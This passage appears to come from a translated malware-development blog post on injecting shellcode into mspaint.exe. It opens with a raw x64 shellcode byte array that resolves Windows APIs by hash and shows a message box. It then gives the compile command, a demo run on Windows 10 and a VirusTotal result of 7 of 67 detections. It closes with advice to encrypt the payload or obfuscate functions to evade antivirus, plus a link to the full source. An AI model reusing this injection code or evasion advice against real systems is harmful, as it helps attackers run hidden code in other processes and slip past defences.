  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### 演示

我们来看一切实际运行的样子。编译我们的示例：

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ \
-I/home/.../cybersec_blog/2022-01-24-malware-injection-15/ \
-s -ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}

Then run it! In our case victim machine is `Windows 10 x64`:

{width="80%"}

{width="80%"}

我们可以看到一切都完美完成了 :)

一个有趣的现象：当我关闭 `meow` 消息框窗口时，我的 `mspaint.exe` 会崩溃并被恢复：

{width="80%"}

Moneta64.exe 结果：

{width="80%"}

Then, upload our malware to VirusTotal:

{width="80%"}

[https://www.virustotal.com/gui/file/5fcd9b3c453c7e2ac9dcc48f358b3e7851ac18edf13fb1658e29f90ffa2c5a74/detection](https://www.virustotal.com/gui/file/5fcd9b3c453c7e2ac9dcc48f358b3e7851ac18edf13fb1658e29f90ffa2c5a74/detection)

所以，67 个 AV 引擎中有 7 个把我们的文件检测为恶意。

我认为这是因为 `VirtualAllocEx` 和 `WriteProcessMemory` 函数的组合非常可疑，而且蓝队的 AV 引擎和恶意软件分析师对此非常熟悉。

如果想要更好的结果，我们可以加上带密钥的载荷加密，或者混淆函数，或者把这两种技术结合起来。

我希望这一节能让蓝队意识到这项有趣的技术，同时为红队的武器库增添一件武器。

[ntddk.h header](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/)  
[NtQueryInformationProcess](https://docs.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntqueryinformationprocess)  
[FindWindow](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-findwindowa)  
[ReadProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-readprocessmemory)  
[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)  
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)  
[SendMessage](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-sendmessage)  
[Moneta64.exe](https://github.com/forrest-orr/moneta)  
[source code in Github](https://github.com/cocomelonc/2022-01-24-malware-injection-15)
